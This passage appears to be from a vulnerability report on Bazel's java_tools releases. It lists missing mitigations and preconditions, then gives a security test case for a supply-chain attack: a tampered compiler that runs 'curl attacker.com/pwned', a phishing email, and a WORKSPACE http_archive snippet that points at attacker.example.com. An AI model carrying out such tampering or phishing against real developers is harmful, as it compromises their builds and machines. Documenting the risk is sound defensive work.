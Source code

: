 - Missing Mitigations:
    - **Stronger documentation emphasis:** Prominently warn users about risks of untrusted `java_tools` releases, guide them to use official releases, and detail integrity verification (e.g., SHA256 checksums).
    - **Code signing of release artifacts:** Digitally sign release artifacts to allow users to cryptographically verify authenticity and integrity before use.
    - **Supply chain security hardening:** Implement robust measures for the release process (Buildkite pipelines, GCP storage, GitHub release process) to prevent unauthorized modifications.
- Preconditions:
    - An attacker must create and host a malicious `java_tools` release.
    - The attacker must socially engineer a Bazel user to use the malicious release URL in their `WORKSPACE` file.
- Source Code Analysis:
    - No specific code in provided files directly introduces this vulnerability.
    - The vulnerability arises from Bazel's `http_archive` mechanism, which allows downloading dependencies from arbitrary URLs, vulnerable to social engineering.
    - `/code/README.md` provides instructions for using `http_archive` to specify `java_tools` releases, highlighting the attack vector if misused with malicious URLs.
    - Release process documentation (`/code/docs/release-automated.md`, `/code/docs/release.md`, `/code/docs/behind-the-release.md`) focuses on official releases but lacks security measures against social engineering.
    - `/code/scripts/release.py` is a utility script not related to this vulnerability.
- Security Test Case:
    1. **Setup Malicious Release:** Create a modified `java_tools` release (e.g., modify `java_compiler.jar` to execute `curl attacker.com/pwned`). Calculate the SHA256 hash.
    2. **Host Malicious Release:** Host the modified release at `http://attacker.example.com/malicious_java_tools.zip`.
    3. **Craft Social Engineering Attack:** Send an email to a Bazel user claiming a critical bug fix in a "new" release at `http://attacker.example.com/malicious_java_tools.zip`, providing the SHA256 hash.
    4. **Victim Configuration:** The Bazel user modifies their `WORKSPACE` file with the provided `http_archive` definition, using the malicious URL and SHA256.
    ```python
    http_archive(
        name = "remote_java_tools_malicious",
        urls = ["http://attacker.example.com/malicious_java_tools.zip"],
        sha256 = "<SHA256 hash of malicious_java_tools.zip provided by attacker>"
    )

    java_toolchain(
        name = "malicious_java_toolchain",
        java_runtime = "@remote_java_runtime//:jdk",
        javac = "@remote_java_tools_malicious//:java_compiler",
        ...
    )

    toolchain(
        name = "java_toolchain_alias",
        toolchain = ":malicious_java_toolchain",
        toolchain_type = "@bazel_tools//tools/jdk:toolchain_type",
    )
    ```
    5. **Trigger Build:** The user runs `bazel build //path/to/java/target`.
    6. **Malicious Code Execution:** Bazel downloads the malicious release and uses the compromised `java_compiler`, executing the malicious code (e.g., request to `attacker.com/pwned`).
